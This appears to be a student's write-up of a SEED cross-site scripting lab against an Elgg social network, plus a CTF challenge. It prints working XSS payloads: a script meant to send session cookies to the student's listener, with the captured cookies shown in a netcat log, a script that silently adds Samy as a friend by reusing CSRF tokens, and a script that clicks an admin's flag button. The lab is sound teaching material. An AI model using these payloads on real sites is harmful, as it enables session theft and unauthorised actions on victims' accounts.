



# Weeks 9 and 10 assignment

## HTTP Header Live

Before the start of the lab, we got familiar with the *HTTP Header Live Tool*.
Because we were already familiar with the Firefox's Web dev tools, it was easy to get a grasp of the add-on.

<p align="center">
    
</p>

## Task 1

For the first task, we logged in as Alice and changed the brief description field to the following:

```html
<script>alert('XSS')</script>
```

This made an alert message prompt every time Alice's profile was loaded:

<p align="center">
    
</p>

## Task 2

This task was similar to the first. However, the session cookies was printed out instead of a `'XSS'` string.

<p align="center">
    
</p>

## Task 3

For this task, we wanted to actually get the cookies ourselves, instead of just displaying them to the user.
For that, we want the browser to send an HTTP request to our machine. 
This was done by inserting an image tag with source set to our server. 
This way, when a user loads the compromised profile, it's browser will try to load the image from our server and append the cookie in that request.

```html
<script>document.write('');</script>
```

```bash
[11/23/22]seed@VM:~/.../LabsetupXSS$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.0.2.4 36002
GET /?c=PHPSESSID%3Dosdptu4bq9idv8jv9rnion5ebf%3B%20Elgg%3Decscjgted05cms63euvl4djb7t HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/profile/alice
``` 

## Task 4

The goal of this task was to make any user that visited Samy's page unknowingly add him as a friend.

Firstly, we added Samy as a friend, to see what this request would look like:

```http
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1669204254&__elgg_token=6njpngZIHn_-c7JYPSPcbA&__elgg_ts=1669204254&__elgg_token=6njpngZIHn_-c7JYPSPcbA

Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
Cookie: PHPSESSID=osdptu4bq9idv8jv9rnion5ebf; Elgg=ecscjgted05cms63euvl4djb7t

GET: HTTP/1.1 200 OK

Date: Wed, 23 Nov 2022 11:51:01 GMT
Server: Apache/2.4.41 (Ubuntu)
Cache-Control: must-revalidate, no-cache, no-store, private
expires: Thu, 19 Nov 1981 08:52:00 GMT
pragma: no-cache
x-content-type-options: nosniff
Vary: User-Agent
Content-Length: 386
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json; charset=UTF-8
```

From that we could identify the required query parameters to perform such a request: a profile id (59 for Samy's case) and a couple of security tokens.

From that, we could build our request:

```js
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        
        var sendurl=`http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=${ts}&__elgg_token=${token}&__elgg_ts=${ts}&__elgg_token=${token}`;
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

This code was saved to the About me section on Samy's profile.
Then, when Alice loaded his profile, our exploit sent a request and successfully added Samy as Alice's friend.

### Questions

1. Elgg requires a couple tokens on requests to prevent CSRF attacks. `$__elgg_ts` indicated the current timestamp and `$__elgg_token` is an action token generated when the page is loaded. Variables `ts` and `token` fetch this data so the request can be validated by the Elgg server.

2. If we try to write code into the About me Visual editor, our text will be enconded to HTML. For example, '<' will become `<p>&lt;</p>`. Because of that, we cannot load js code in a way it could be executed.


### Week 10 CTF

## First Challenge

If we provide an arbitrary string for a justification, the admin will not give access to the flag.
We noticed that the text input was vulnerable to XSS by passing `<script>alert('hey')</script>`. This prompted an alert message.

The way the admin would ever give access to the flag was by pressing the Give Flag button. 
Thus, we decided to click the button ourselves using XSS:

```html
<script>document.getElementById('giveflag').click();</script>
```

When this "justification" was loaded into the admin page it would click the give flag button which in turn gave us the flag.

